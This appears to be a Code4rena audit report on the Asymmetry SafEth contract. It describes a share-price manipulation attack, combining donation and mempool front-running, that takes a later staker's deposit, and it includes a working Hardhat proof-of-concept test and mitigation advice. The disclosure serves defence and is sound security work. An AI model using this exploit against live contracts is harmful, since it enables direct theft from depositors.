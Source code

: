 ### Exploitable price manipulation vulnerability in SafEth staking

**Contest:** [Asymmetry]()

**Context:** [SafEth.sol](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L71-L81) 

**Description:**

The code vulnerability allows for the direct theft of funds from other stakers in a derivative-based system. The stake function calculates the price of the safEth token based on the underlying value of derivatives. External manipulation of underlying values and depositors' influence on total supply can lead to an attack. The attack involves manipulating the underlying value to increase the price, followed by unstaking a small amount to profit from the price discrepancy. To mitigate this, implementing a lock mechanism and averaging the price over a certain period are recommended.


**Impact:**

Direct theft of funds from other stakers

**Proof of Concept**

The "stake" function allows external users to stake funds into a system of derivatives in exchange in safEth. The function first performs a few checks on the staking request to ensure that it meets certain criteria, such as minimum and maximum values.

The function then calculates the underlying value of each derivative object in terms of ETH, using a for loop to iterate over each object in an array. The total underlying value is then used to calculate the pre-deposit price of the safETH token.

The underlying value is calculated using the formula 
`(ethPerDerivative / the balance of the derivative) / 1e18`

The balance of the derivative is fetched in each function by calling the underlying token of the derivative, e.g. `IERC20(underlying).balanceOf(address(this));` [1](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/SfrxEth.sol#L122-L124), [2](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/WstEth.sol#L93-L95), [3](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/Reth.sol#L221-L223)  - where the implementation of `ethPerDerivative` can vary. [1](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/Reth.sol#L211-L215), [2](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/SfrxEth.sol#L111-L117), [3](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/WstEth.sol#L86-L88)

After that, if the supply is zero it initializes it with a price of 1 otherwise, it calculates it with the following formula:

`(10 ** 18 * underlyingValue) / totalSupply`.

However, because underlyingValue can be influenced externally and depositors can influence the totalSupply, this can lead to a complex attack vector which would result into theft of funds for other depositors.

<u>Consider the following scenario:</u> 

Bob deposits 0.5e18 (because there's a min deposit requirement) and receives 0,5001992725 safEth in exchange.

Now, if Alice is to stake 200e18, the price would be 1000000006116652746 and she would receive 200079708657045533684 safEth in exchange.

However, Bob has another plan. Immediately after his staking, he unstakes 0.5e18 - 1 wei, which leaves him with just 1 safEth.

Now if Alice is to stake -
underlyingValue equal 2
totalSupply would equal 1

Now if she stakes 200e18, the price equals `( 1e18 * 2 ) / 2` , hence she would get 100039855415051776431 safEth in exchange, which is not a problem **yet**, because she can withdraw them with a very minimal difference (~0.25e18), so Alice decides to proceed.

When Alice submits her transaction, Bob immediately notices it in the mempool and generously donates 100e18 to the SfrxEth derivative and the WstETH derivative, which directly would manipulate [this](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L71-L81) computation.

```solidity
    // Getting underlying value in terms of ETH for each derivative
    for (uint i = 0; i < derivativeCount; i++)
      underlyingValue +=
        (derivatives[i].ethPerDerivative(derivatives[i].balance()) *
          derivatives[i].balance()) /
        10 ** 18;

    uint256 totalSupply = totalSupply();
    uint256 preDepositPrice; // Price of safETH in regards to ETH
  
    if (totalSupply == 0)
      preDepositPrice = 10 ** 18; // initializes with a price of 1
    else preDepositPrice = (10 ** 18 * underlyingValue) / totalSupply;
```

Now that `underlyingValue` is manipulated, the price equals the astonishing 100079713278686337891000000000000000000, so as a result Alice gets only 1 safEth in exchange.

Bob, knowing what happened is very quick to unstake his 1 safEth, which yields him ~ 49,80 ETH profit.

To prove this, I've built a PoC using the test suite of the protocol, with two very small modifications so it's easier to use.

I've added this function to WstEth and SfrxEth in order to simulate Bob's donation easier.
```solidity
  function feedMe () external payable {
    (bool sent, ) = WST_ETH.call{ value: msg.value }("");
  }
```

And additionally, I have set Reth's weight to 0 just to simplify the example.


```typescript
it("Direct theft of funds", async function () {
      const startingBalance = await adminAccount.getBalance();
      console.log("Bob balance before attack:",ethers.utils.formatEther(startingBalance));
      await safEthProxy.connect(adminAccount).stake({ value: ethers.utils.parseEther("0.5") });
      let balance = await safEthProxy.balanceOf(adminAccount.address)

      await safEthProxy.connect(adminAccount).unstake(
        balance.sub(1)
      );      

      let der1 = await safEthProxy.derivatives(1);
      let der2 = await safEthProxy.derivatives(2);

      const iface = new ethers.utils.Interface(['function feedMe()']);
      const data = iface.encodeFunctionData('feedMe');

      // SfrxEth
      await adminAccount.sendTransaction({
        data: data,
        to: der1,
        value: ethers.utils.parseEther("100")
      })

      // WstETH
      await adminAccount.sendTransaction({
        data: data,
        to: der2,
        value: ethers.utils.parseEther("100")
      })


      console.log("Alice balance before staking:",ethers.utils.formatEther(await alice.getBalance()));
      await safEthProxy.connect(alice).stake({ value: ethers.utils.parseEther("200") });
      let aliceSafEthBalance = await safEthProxy.balanceOf(alice.address);
      

      await safEthProxy.connect(adminAccount).unstake(1);

      console.log("Bob balance after attack:",ethers.utils.formatEther(await adminAccount.getBalance()));

      await safEthProxy.connect(alice).unstake(aliceSafEthBalance);

      console.log("Alice balance after unstaking:",ethers.utils.formatEther(await alice.getBalance()));
    
    });
```

Running `yarn hardhat test ./test/SafEth.test.ts --grep "Direct theft of funds"` in the console, yields the following result.

![](https://i.imgur.com/3rQfZnG.png)


**Tools Used**

Manual review, Hardhat


**Recommended Mitigation Steps**

These types of attacks always have different nuances and variations, so in general its not recommended to rely on external calls that can be unexpectedly manipulated. 

1. Implement a lock mechanism: Introduce a lock mechanism that prevents users from unstaking their funds immediately after staking. This can be done by setting a minimum lock duration, during which users cannot unstake their funds. This will prevent attackers from manipulating the underlying value and total supply in the short term.
2. Average the price over a certain period: Instead of using the current underlying value and total supply to determine the price, use a moving average of the price over a certain period. This would reduce the effect of sudden changes in the underlying value and total supply on the price calculation.

